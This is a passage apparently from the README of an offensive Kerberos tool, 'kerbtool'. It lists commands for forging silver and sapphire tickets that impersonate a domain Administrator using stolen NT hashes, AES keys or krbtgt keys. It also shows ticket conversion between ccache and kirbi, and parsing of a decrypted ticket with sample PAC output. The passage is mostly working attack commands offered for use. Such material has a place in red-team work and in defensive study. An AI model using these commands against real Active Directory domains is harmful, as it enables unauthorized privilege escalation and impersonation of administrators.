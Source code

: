 Forge a silver ticket using the service account NT hash or AES key to impersonate the Administrator account:
```
./kerbtool --forge --target Administrator --domain skynet-ops.corp --sign-nt <NT Hash> --domain-sid <S-1-5-21-...> --spn cifs/srv01.skynet-ops.local
./kerbtool --forge --target Administrator --domain skynet-ops.corp --sign-aes <AES key> --domain-sid <S-1-5-21-...> --spn cifs/srv01.skynet-ops.local
```

Forge a sapphire ticket to impersonate the Administrator account:
```
./kerbtool --forge --user test --pass <pass> --domain skynet-ops.corp --sign-aes <krbtgt AES key> --domain-sid <S-1-5-21-...> --request --impersonate Administrator
```

## Convert tickets
Convert from CCache to Kirbi and the other way around.
Input and output can be either files on disk or base64 encoded strings as argument and output.

```
./kerbtool --convert --in administrator.ccache --out administrator.kirbi
./kerbtool --convert --in administrator.kirbi --out administrator.ccache
./kerbtool --convert --in administrator.ccache
./kerbtool --convert --ticket BQQADAABAAj/////AAAAAAA... --out administrator.kirbi
./kerbtool --convert --ticket BQQADAABAAj/////AAAAAAA...
```

## Inspect tickets
To inspect a ticket, either provide a ticket from disk in ccache or kirbi
format, or provide a hex encoded ticket as seen in Wireshark.
The signing key argument should be same as was used to create the ticket.
Typically AES256 for realm local ticket and NT Hash for referral tickets.
```
./kerbtool --parse --in administrator.ccache --sign-aes <krbtgt AES256 key> 
```

The output would look something like this:
```
Decrypting ticket with a keytype: 18, key: d7e3794...35
Ticket content:
TktVNO: 5
Realm: SKYNET-OPS.CORP
SName: (type: 2, name: krbtgt/SKYNET-OPS.CORP)
Ticket encrypted part:
  Flags: [Forwardable Renewable Initial PreAuthent EncPARep Canonicalize]
  CRealm: SKYNET-OPS.CORP
  CName: administrator
  CName: (type: 1, name: administrator)
  AuthTime: 2025-06-07 15:54:49 +0000 UTC
  StartTime: 2025-06-07 15:54:49 +0000 UTC
  EndTime: 2025-06-08 01:54:48 +0000 UTC
  RenewTill: 2025-06-09 15:54:48 +0000 UTC
  CAddr: []
  AuthorizationData:
  AuthorizationData[0].ADType: ADIfRelevant
  AuthorizationData[0].ADData[0].ADType: ADWin2KPAC
### PAC ###
PAC.CBuffers: 5
PAC.Version: 0

### KerbValidationInfo ###
LogOnTime: 2025-06-07 15:54:49.5488861 +0000 UTC
LogOffTime: 2185-07-21 23:34:33.709551516 +0000 UTC
KickOffTime: 2185-07-21 23:34:33.709551516 +0000 UTC
PasswordLastSet: 2025-06-07 11:06:16.5506286 +0000 UTC
```